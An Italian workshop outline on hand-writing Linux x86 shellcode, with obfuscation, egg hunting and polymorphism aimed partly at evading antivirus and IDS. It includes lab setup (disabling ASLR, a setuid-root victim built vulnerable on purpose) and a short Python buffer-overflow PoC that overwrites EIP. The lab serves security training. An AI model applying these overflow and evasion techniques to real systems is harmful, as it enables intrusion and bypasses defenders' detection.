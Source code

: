 # x86 shellcoding cakestar

## Introduzione

Quando facciamo un penetration test, il più delle volte utilizziamo exploit già
pronti o usiamo strumenti come msvfenom per creare un payload con qualche
opzione particolare.

Esistono situazioni dove hai bisogno di essere più creativo: devi evitare
l'antivirus, devi nasconderti dall'IDS o semplicemente vuoi divertirti un po'
ed avere il pieno controllo del codice che sarà eseguito sulla macchina.

Ecco, in questo talk vedremo come creare 2 shellcode veramente semplici in
ambiente Linux x86 e, partendo da un codice funzionante, andremo ad aggiungere
tecniche di offuscamento, egg hunting e polimorfismo per far evolvere il nostro
payload.

Il bypass dell'antivirus forse non sarà garantito, ma il divertimento... quello
sì.

## A chi è rivolto?

Penetration tester Analisti SOC Sviluppatori

## Livello di difficoltà

BASSO

## Skill richieste

* Conoscenze base di assembler x86
* Sapere cos'è una _system call_
* Un pizzico di python o ruby o il linguaggio che più vi piace a cui accodare
  il nostro shellcode.

## Cosa mi serve

* Una macchina virtuale Linux per lo sviluppo (scriveremo assembler per x86, quindi a 32 bit).
  * Ubuntu 20.04
  * apt install apt install python3 gcc-multilib nasm gdb
  * peda: https://github.com/longld/peda
  * clonate l'archivio https://github.com/thesp0nge/HackInBoSafeEdition
  * Disabilito ASLR "echo 0 > /proc/sys/kernel/randomize_va_space"

## Preparo la vittima

Ho bisogno di compilare il programma vittima per iniziare le esercitazioni.

``` sh
$ ./compile.sh pwnme.c
$ sudo "chown root:root pwnme"
$ sudo "chmod +s pwnme"
```

## L'inizio della nostra storia

Da una analisi precedente sappiamo che il software pwnme è vulnerabile a buffer
overflow. Il contenuto del file pwnme.txt, necessario al funzionamento del
nostro tool, vieme copiato in una variabile, purtroppo senza fare un controllo
sulla lunghezza dei dati letti da file.

Nel caso il file di testo sia costituito da troppi caratteri, dopo 140 byte
avremmo la sovrascittura del registro EIP e di fatto, l'inizio della nostra
storia.

Il PoC del nostro exploit sarà questo:
``` python
#!/usr/bin/env python3

import os;

# 0x5655625c
eip="\x5c\x62\x55\x56"
shellcode = "A"*140+eip
f = open("pwnme.txt","w")
f.write(shellcode)
f.close()
```

### Disclaimer

Questo talk non è su come trovare un buffer overflow ma su come customizzare il
nostro shellcode. Il programma vulnerabile quindi è stato scritto introducendo
la vulnerabilità in maniera forzata, in particolare:

* è stato aggiunto dell'inline assembler per mettere a disposizione
  l'istruzione JMP ESP
* avendo disattivato la randomizzazione dello stack, ho il nuovo valore del
  registro EIP sempre fisso
